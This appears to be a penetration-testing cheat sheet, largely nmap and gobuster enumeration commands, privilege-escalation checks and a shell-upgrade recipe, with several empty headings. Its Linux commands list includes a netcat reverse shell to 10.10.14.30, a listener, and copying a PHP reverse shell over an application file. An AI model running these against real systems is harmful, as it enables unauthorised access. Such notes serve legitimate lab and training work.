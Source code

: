 # Enumuration

## NMAP
* *sudo nmap -sC -sV -O -oA \<Output Directory\> \<IP Address\>* - Basic nmap scan for the top ports only. (-sC for default scripts, -sV for version enum, -O for OS enum)
* *sudo nmap -sC -sV -O -p- -oA \<Output Directory\> \<IP Address\>* - Scan for all the ports.
* *nmap --script vuln -oA \<Output Directory\> \<IP Address\>* - Run vulnerability scripts on the target.
* *nmap -sU -oA \<Output Directory\> \<IP Address\>* - Runs a scan for the top UDP ports.

## Fuzzing
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>* - You can use another wordlist as well.
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\> -f* - (-f) is used when the server treats /cgi-bin and /cgi-bin/ differently.
* gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>/<Directory>/ -x sh,cgi - Searches for files in a directory and (-x) is used to specify the extension.

Exploiting
## Privilege Escalation

## Reverse Shells 

## How to brute force

## How to break hash

## Useful Commands (Linux)
* grep/search/etc..
* sudo -l
* whoami
* id
* uname -a
* sudo -i -u scriptmanager
* locate password | grep john
* cp php-reverse-shell.php artisan
* nc -nlvp 4444
* nc -nv 10.10.14.30 4444 -e /bin/sh (Target machine to send a reverse shell)
* chmod +x \<File Name\>
* searchsploit --id httpd


## Useful Commands (Windows)
* grep/search/etc..
* sudo -l
* 
## Useful Information

### Useful Information (General)
* Even if you don't have access to a directory you might have access to the files in that directory. (When you get a 403, try fuzzing inside the directory)
* Some servers treat /Directory and /Directory/ differently, the first one might not be accessible but the second might be, make sure to check both when fuzzing.


### Useful Information (Linux)
* Crontab are a list of commands in Linux that are executed on a regular basis. Making it a useful persistent technique and privilege escalation technique.
* If a reverse shell is executed by a specific user, the shell granted will be of that user's privilege. (i.e. if you executed a shell as root, you will get root shell)
* Sometimes even if you can execute a file, you can read/write to it.
* Sometimes even if you aren't root, you can run specific commands with root privilege.

### Useful Information (Windows)


## Injection Payloads

### SQL

### Command Injection

### XSS


## How to upgrade a shell to a fully interactive TTY.
* *python -c 'import pty; pty.spawn("/bin/bash")'* - Spwans */bin/bash* using Python’s PTY module
* *Ctrl + Z* - Background the shell.
* *stty raw -echo && fg* - Upgrade the local terminal with *stty* and foreground the reverse shell.
* *Double Enter*

## General Major Vulnerabilities
* Eternal Blue (SMB - Windows) (Privileged Access)
* Dirty Cow (Linux - Privilege Escalation)
* Valentine (SSH) (Memory Data Dump)
